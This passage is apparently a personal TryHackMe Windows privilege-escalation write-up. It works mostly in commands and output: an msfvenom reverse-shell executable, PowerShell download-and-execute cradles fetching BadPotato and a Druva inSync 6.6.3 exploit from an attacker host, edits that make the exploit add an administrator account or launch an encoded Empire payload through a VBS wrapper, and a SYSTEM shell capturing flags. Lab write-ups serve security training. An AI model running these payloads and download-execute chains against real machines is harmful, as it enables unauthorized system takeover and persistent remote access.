┌──(kali㉿kali)-[/tmp/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support -username s -password s
```

Start revshell handler

```bash
┌──(kali㉿kali)-[~/scripts]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
```

Download meterpreter stageless reverse shell

```bash
PS C:\windows\system32\inetsrv> net use \\10.11.19.145\s /user:s s
The command completed successfully.

PS C:\windows\system32\inetsrv> copy \\10.11.19.145\s\shell.exe C:\Programdata\shell.exe
```

Use Sweet Potato

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/PowerSharpPack/PowerSharpBinaries]
└─$ ls|grep potato -i
Invoke-BadPotato.ps1

┌──(kali㉿kali)-[/opt/sectools/powershell/PowerSharpPack/PowerSharpBinaries]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
PS C:\windows\system32\inetsrv> iex(new-object net.webclient).downloadstring("http://10.11.19.145/Invoke-BadPotato.ps1")

PS C:\windows\system32\inetsrv> Invoke-BadPotato -Command "C:\Programdata\shell.exe"
```

Received shell

```bash
┌──(kali㉿kali)-[~/scripts]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.130.8] 50052
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system

c:\windows\system32\inetsrv>type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\flag.txt
THM{SEFLAGPRIVILEGE}
```

> THM{SEFLAGPRIVILEGE}

## Abusing vulnerable software
---
### Unpatched Software

You can use the `wmic` tool to list software installed on the target system and its versions

```bash
wmic product get name,version,vendor
```

### Case Study: Druva inSync 6.6.3

Walkthrough at GSS: [[GSS/metasploit#手動(不用metasploit)#Privilege Escalation]] 

### Questions

##### Get the flag on the Administrator's desktop.

Using `PrivescCheck.ps1`

```bash
PS C:\Users\thm-unpriv> iex(new-object net.webclient).downloadstring("http://10.11.19.145/PrivescCheck.ps1")
PS C:\Users\thm-unpriv> Invoke-PrivescCheck
```


Run again but with argument `-Extended` (Will take up to **x10** time), will show **Non-default Apps**


Enumerate installed applications

```bash
PS C:\Users\thm-unpriv> wmic product get name,version,vendor
Name                                                            Vendor                                   Version
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910     Microsoft Corporation                    14.28.29910
AWS Tools for Windows                                           Amazon Web Services Developer Relations  3.15.1248
VNC Server 6.8.0                                                RealVNC                                  6.8.0.45849
Amazon SSM Agent                                                Amazon Web Services                      3.0.529.0
aws-cfn-bootstrap                                               Amazon Web Services                      2.0.5
Druva inSync 6.6.3                                              Druva Technologies Pte. Ltd.             6.6.3.0
AWS PV Drivers                                                  Amazon Web Services                      8.3.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910  Microsoft Corporation                    14.28.29910
```

Got druva with version info : `Druva inSync 6.6.3 `

Search Druva exploit

```bash
# Make Sure searchsploit have the latest version of exploitdb
sudo apt update && sudo apt install exploitdb -y


┌──(kali㉿kali)-[~/thm]
└─$ searchsploit druva
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Druva inSync Windows Client 6.5.2 - Local Privilege Escalation                                                                                                                 | windows/local/48400.txt
Druva inSync Windows Client 6.6.3 - Local Privilege Escalation                                                                                                                 | windows/local/48505.txt
Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell)                                                                                                    | windows/local/49211.ps1
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Clone the exploit poc

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ searchsploit -m 49211
  Exploit: Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell)
      URL: https://www.exploit-db.com/exploits/49211
     Path: /usr/share/exploitdb/exploits/windows/local/49211.ps1
    Codes: CVE-2020-5752
 Verified: False
File Type: ASCII text
Copied to: /home/kali/thm/49211.ps1
```

Enumerate password policy on target

```bash
PS C:\Users\thm-unpriv> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          42
Minimum password length:                              0
Length of password history maintained:                None
Lockout threshold:                                    Never
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        SERVER
The command completed successfully.
```

Modify the code

```bash
vi 49211.ps1
```

> Showing diff

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ diff /usr/share/exploitdb/exploits/windows/local/49211.ps1 49211.ps1
1,12d0
15c3
< $cmd = "net user pwnd /add"
---
> $cmd = "net user god god /add && net localgroup Administrators god /add"
```

> [!NOTE] Note
> If password was not set, `runas` will show the error: 
> ```bash
> PS C:\Users\thm-unpriv> runas /user:god "powershell.exe"
Enter the password for god:
Attempting to start powershell.exe as user "WPRIVESC3\god" ...
RUNAS ERROR: Unable to run - powershell.exe
1327: Account restrictions are preventing this user from signing in. For example: blank passwords aren't allowed, sign-in times are limited, or a policy restriction has been enforced.
> ```
> If adding admin user failed, just use revshell instead.

**FIX**:

> Tried several ways not to create file on target disk, all failed

Prepare a vbs revshell wrapper (Powershell payload was from Empire)

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ cat > update.vbs << EOF
Set objShell = CreateObject("Wscript.Shell")
objShell.Run("powershell -noP -sta -w 1 -enc SQBmACgAJABQ..."), 0, true
EOF
```

Modify the exploit code to run VBS revshell wrapper from smb share

```bash
vi 49211.ps1
```

> Showing diff

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ diff /usr/share/exploitdb/exploits/windows/local/49211.ps1 49211.ps1
15c3
< $cmd = "net user pwnd /add"
---
> $cmd = "C:\programdata\update.vbs"
```

Start http server

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Run the exploit

```bash
# Download the VBS file
PS C:\Users\thm-unpriv> (new-object net.webclient).downloadfile("http://10.11.19.145/update.vbs", "C:\Programdata\update.vbs")

PS C:\Users\thm-unpriv> iex(new-object net.webclient).downloadstring("http://10.11.19.145/49211.ps1")
22
4
4
248
```

On powershell empire client


Browse Files from webui (http://127.0.0.1/index.html)





> THM{EZ_DLL_PROXY_4ME}

## Tools of the Trade
---
- **WinPEAS**
- **PrivescCheck**
- WES-**NG**
	- `systeminfo > systeminfo.txt`
	- `python3 wes.py /tmp/www/systeminfo.txt -c --exploits-only --impact "Elevation of Privilege"`
- **Metasploit**
	- `multi/recon/local_exploit_suggester`
